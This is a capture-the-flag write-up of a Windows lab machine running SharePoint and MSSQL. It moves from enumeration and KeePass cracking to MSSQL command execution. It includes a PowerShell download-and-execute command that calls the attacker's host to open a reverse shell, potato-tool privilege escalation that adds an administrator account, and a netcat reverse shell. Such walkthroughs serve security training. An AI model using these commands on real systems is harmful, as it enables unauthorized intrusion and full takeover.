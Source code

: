 
**Skills Required**
● Intermediate/advanced knowledge of
Windows
● Basic understanding of C and compiler
flags
**Skills Learned**
● Enumerating Sharepoint
● Exploiting MSSQL
● Windows Defender/AV evasion
techniques
● Exploit modification

port 445(smb)
port 5985(winrm)
port 21 (ftp)
port 80 (http)

With port 445 (smb) open, I use crackmapexec to gather information about the victim machine
``` bash
❯ crackmapexec smb 10.10.10.59
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)

```

Now I'll attempt to list the shared resources via SMB
``` bash
❯ smbmap -H 10.10.10.59 -u 'null'
[!] Authentication error on 10.10.10.59

```

Access is denied, so I need a valid credentials to list shared resources

Port 80 is open, so I use whatweb to gather  information about the websiite
``` bash
❯ whatweb 10.10.10.59
http://10.10.10.59 [302 Found] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.59], Microsoft-IIS[10.0], Microsoft-Sharepoint[15.0.0.4420], RedirectLocation[http://10.10.10.59/default.aspx], Title[Document Moved], UncommonHeaders[x-sharepointhealthscore,sprequestguid,request-id,sprequestduration,spiislatency,microsoftsharepointteamservices,x-content-type-options,x-ms-invokeapp], X-Frame-Options[SAMEORIGIN], X-Powered-By[ASP.NET]

http://10.10.10.59/default.aspx [200 OK] ASP_NET[4.0.30319], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.59], MetaGenerator[Microsoft SharePoint], Microsoft-IIS[10.0], Microsoft-Sharepoint[15.0.0.4420], Script[text/javascript], Title[Home - Home][Title element contains newline(s)!], UncommonHeaders[x-sharepointhealthscore,sprequestguid,request-id,sprequestduration,spiislatency,microsoftsharepointteamservices,x-content-type-options,x-ms-invokeapp], X-Frame-Options[SAMEORIGIN], X-Powered-By[ASP.NET], X-UA-Compatible[IE=10]

```

I see some information related to sharepoint (_SharePoint_ is a web-based collaborative platform that integrates natively with Microsoft 365)

While exploring the website I discover the sharepoint site and attempt to find interesting routes by fuzzing. I use google for this and review sharepoint pentesting  reports to discover potential routes

``` bash
http://10.10.10.59/_layouts/15/viewlsts.aspx -> DOcuments

```

Within the website, I find an ftp-details file. After downloading it, I obtain credentials to connect via FTP
``` bash 
FTP details
ftp_user
hostname: tally

workgroup: htb.local

password: UTDRSCH53c"$6hys

Please create your own user folder upon logging in

```

After connecting to the ftp service, I access leaked information, Given the volume of data,  I use the curlftpfs tool to create a mount for easier access to all the FTP information

``` bash
curlftpfs 10.10.10.59 /mnt/ftp/ -o user=ftp_user:UTDRSCH53c"$6hys
tree -fas
cp /User/Tim/Files/tim.kdbx .
```

I obtain a .kdbx file, which is a Data file created by KePass Password Safe, and there is a way to crack it
I'll use the keepassxc tool to examine its contents, However it's protected ,so I will use john to crack it.
```
keepass2john tim.kdbx > hash
❯ john --wordlist=~/Documents/wordlist/rockyou.txt hash
Warning: detected hash type "KeePass", but the string is also recognized as "KeePass-opencl"
Use the "--format=KeePass-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**simplementeyo    (tim)**
1g 0:00:00:11 DONE (2023-09-22 12:17) 0.08665g/s 2140p/s 2140c/s 2140C/s teamomivida..rylee
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

With the help of john I obtain credentials for the user tim, so Now I can use keepassxc to see the information of the .kdbx file

I get more credentials, this time for a shared resources
``` bash
Finance:Acc0unting

```

Using these credentials, I revisit smbmap to list shared resources via SMB

``` bash
smbmap -H 10.10.10.59 -u 'Finance' -p 'Acc0unting'
[+] IP: 10.10.10.59:445	Name: unknown             	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ACCT                                              	READ ONLY	
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
```

There are some resources, but one (ACCT) have the privileged READ ONLY
I'll list the information of this resource

``` bash
smbmap -H 10.10.10.59 -u 'Finance' -p 'Acc0unting' -r ACCT
[+] IP: 10.10.10.59:445	Name: unknown             	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ACCT                                              	READ ONLY	
	.\ACCT\\*
	dr--r--r--                0 Thu Sep 21 01:27:54 2017	.
	dr--r--r--                0 Thu Sep 21 01:27:54 2017	..
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Customers
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Fees
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Invoices
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Jess
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Payroll
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Reports
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Tax
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Transactions
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	zz_Archived
	dr--r--r--                0 Thu Sep 21 01:27:54 2017	zz_Migration

```

there are a lot of directories, I opt for the same approach as before but this time I use the  "mount -t cifs" command
``` bash
mount -t cifs //10.10.10.59/ACCT /mnt/smb -o username=Finance,password=Acc0unting,rw
tree -fas
```

there are a backup directory, maybe some credentials are there.
``` bash
mount -t cifs //10.10.10.59/ACCT /mnt/smb -o username=Finance,password=Acc0unting,rw
tree -fas
```

Inside this directory I discover various binaries and. One binary, "tester.exe" àrticulary piques my interest.
I use the "strings" tool inspect its contents and I found more credentials, this time for a sql server
``` bash
/mnt/smbshred/zz_Migration/Binaries/New folder ╱ ✔ ❯ strings tester.exe | less                 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
```

With the port 1433 open, I can connect to the sql server using the impacket tool with these credentials

``` bash
mssqlclient.py WORKGROUP/sa:GWE3V65#6KFH93@4GWTG2G@10.10.10.59
#try xp_cmdshell "whoami" if is off you can try to configure it -> 
SQL> sp_configure "show advanced options", 1 -> reconfigure -> sp_configure "xp_cmdshell", 1 
# now I can execute commands and try to execute a reverse shell
xp_cmdshell "whoami"
```

Now that I can execute commands on the victim machine, I'm going to use Invoce-PowerShellTCP.ps1 to stablish a reverse shell

``` bash
# on the victim machine
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.5/Invoke.ps1\")"

# On my machine
python -m http.server 80
rlwrap nc -nlvp 1234

```


Having gained access to the victim machine, it's time to escalate privileges

``` bash
whoami /priv

```

The user has the "SeImpersonatePrivilege" privilege, which can be exploited with the Juicy Potato tool
``` bash
#On my machine
sudo python -m http.server 80

# On victim machine
iwr -uri http://10.10.14.5/juicypotato.exe -OutFile juicy.exe
.\juicy.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c net user kvzlx **colombia**123 /add" -> create a user
.\juicy.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c net localgroup Administrators kvzlx /add" -> put the user in the administrator group
.\juicy.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -> put the user in the Remote management users to can connect with via evil-winrm


#I have problem with Juicy potato so I use SweetPotato.exe and a nc64.exe binary (netcat)
	.\SweetPotato.exe -p nc64.exe -a "-e powershell 10.10.14.5 1234"

  
```

this completes the privilege escalation, and I now have full control over the machine.
User flag > e806ef7ecb81f2a281c36f8b06f4d770
root flag > 7cac06b6c854ced20c5036f6fe13ac0b

